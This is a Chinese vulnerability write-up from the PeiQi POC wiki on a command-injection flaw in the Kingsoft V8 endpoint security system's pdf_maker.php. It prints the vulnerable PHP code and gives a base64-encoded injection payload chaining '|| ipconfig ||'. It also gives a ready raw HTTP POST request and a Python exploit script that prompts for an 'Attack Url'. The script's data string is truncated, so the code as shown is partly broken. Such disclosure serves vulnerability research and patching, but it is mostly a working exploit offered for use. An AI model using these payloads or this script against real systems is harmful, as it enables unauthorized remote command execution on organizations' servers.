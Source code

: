 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/R5RvWHNVycEez7qxquxUhQ)

![](https://mmbiz.qpic.cn/mmbiz_gif/ibicicIH182el5PaBkbJ8nfmXVfbQx819qWWENXGA38BxibTAnuZz5ujFRic5ckEltsvWaKVRqOdVO88GrKT6I0NTTQ/640?wx_fmt=gif)

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7f0qibYGLgIyO0zpTSeV1I6m1WibjS1ggK9xf8lYM44SK40O6uRLTOAtiaM0xYOqZicJ2oDdiaWFianIjQ/640?wx_fmt=png)

**一****：漏洞描述🐑**

**金山 V8 终端安全系统 pdf_maker.php 存在命令执行漏洞，由于没有过滤危险字符，导致构造特殊字符即可进行命令拼接执行任意命令**

**二:  漏洞影响🐇**

**金山 V8 终端安全系统**

**三:  漏洞复现🐋**

```
V8安装包 地址
http://duba-011.duba.net/netversion/Package/KAVNETV8Plus.iso
```

**存在漏洞的文件为**

```
Kingsoft\Security Manager\SystemCenter\Console\inter\pdf_maker.php
```

```
<?php
require_once (dirname(__FILE__)."\\common\\HTTPrequest_SCpost.php");
/*
{
   "kptl" :
{
"set_exportpdf_cmd" :
    {
    "url" : "http://172.18.254.146/report/system/main.php?userSession=5784727B-7AEA-4EFE-B0CB-DDD6DA1CABD3&guid=1AC380D9-                580C-49A8-B6EC-787CF50FA928&VHierarchyID=ADMIN",
    "fileName":"test.pdf"
    }
}
*/
  
  
  //$post = file_get_contents("php://input");
  
  /*
  $post = array("kptl"=>
      array("set_exportpdf_cmd"=>array(
        "url"=>"http://172.18.254.146/report/system/main.php?userSession=5784727B-7AEA-4EFE-B0CB-DDD6DA1CABD3&guid=1AC380D9-580C-49A8-B6EC-787CF50FA928&VHierarchyID=ADMIN",
        "fileName"=>"test1234.pdf"
        )
      ));
      */
      
  
      
  
  

  $url = $_POST["url"];
  $fileName =  $_POST["fileName"];
  $batName=$fileName;
  if ($url == null || $fileName == null)
  {
    $return["nResult"] = __LINE__;
    echo json_encode($return,JSON_UNESCAPED_UNICODE);
    return ;
  }
  
  $url = base64_decode($url);
  $nameStr = base64_decode($fileName).date("Y-m-d").".pdf";
  $fileName="..\\htmltopdf\\".$nameStr;

  system('mkdir ..\\htmltopdf');

  
  $cmd = '..\\..\\wkhtmltopdf.exe "'.$url.'" '.$fileName;
  if (getApacheVersion()>=24) { //apache 2.4 php 7 版本 只能在  bat中运行
    $cmd =" del ".$fileName;

    exec($cmd);
    $url_= str_replace('%','%%', $url);
    $cmd = '..\\..\\wkhtmltopdf.exe "'.$url_.'" '.$fileName;
    $batName ="exec_wkhtmltopdf.bat";
    $myfile = fopen($batName , "w");
    //$cmd =iconv("UTF-8", "gbk", $cmd );
    fwrite($myfile, $cmd);
    fclose($myfile);
    $cmd =$batName ;
    exec($cmd);
    $cmd =" del ".$batName;
    exec($cmd);
    }else
    {
  system($cmd);
    }
  // echo $url;
  $return = array("nResult" => "0","fileName" =>$nameStr,"url"=>$url);
  echo json_encode($return,JSON_UNESCAPED_UNICODE);
  
?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4H0eAdwSujqLIvjNhHfb9xerf6CyWicKPjhNDSediabPHicnFnPw84S9ztlibTlfVR7yjiaXzlBtZlaaA/640?wx_fmt=png)

```
这里传入 base64加密的拼接命令即可执行任意命令
"|| ipconfig || --base64--> url=IiB8fCBpcGNvbmZpZyB8fA==&fileName=xxx
```

```
POST /inter/pdf_maker.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 45
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer:
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=noei1ghcv9rqgp58jf79991n04

url=IiB8fCBpcGNvbmZpZyB8fA%3D%3D&fileName=xxx
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4H0eAdwSujqLIvjNhHfb9xTib7ZQdUiaFhrpYYvO2mZUSd6AH8RczbDE1fsVsicbsjtQ2DzzQMZuKjA/640?wx_fmt=png)

 ****四:  漏洞 POC🦉****

```
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : 金山 V8 终端安全系统 pdf_maker.php 命令执行漏洞                 \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/inter/pdf_maker.php"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = "url=IiB8fCBpcGNvbmZpZyB8fA==&file
    try:
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        if "Windows" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 存在漏洞 ,执行 ipconfig, 响应为:\n{} \033[0m".format(target_url, response.text))
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4H0eAdwSujqLIvjNhHfb9xzYrdhQ7LWrqibgwiae6h9AyV1mG0rnC2yCKKfmq0lvaMlRpXh7ia6c6AA/640?wx_fmt=png)

****六:  Goby & POC🦉****

```
https://github.com/PeiQi0/PeiQi-WIKI-POC
Goby & POC 目录中
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4H0eAdwSujqLIvjNhHfb9xItq0ciaRMpfPRkFXP8myDmtdCzDAbselQH1bDsqXrACpbHfq6ZnBIgg/640?wx_fmt=png)

 ****六:  关于文库🦉****

**在线文库：**

**http://wiki.peiqi.tech**

**Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**

最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐

公众号

**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**

**PeiQi 文库 拥有对此文章的修改和解释权如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。**
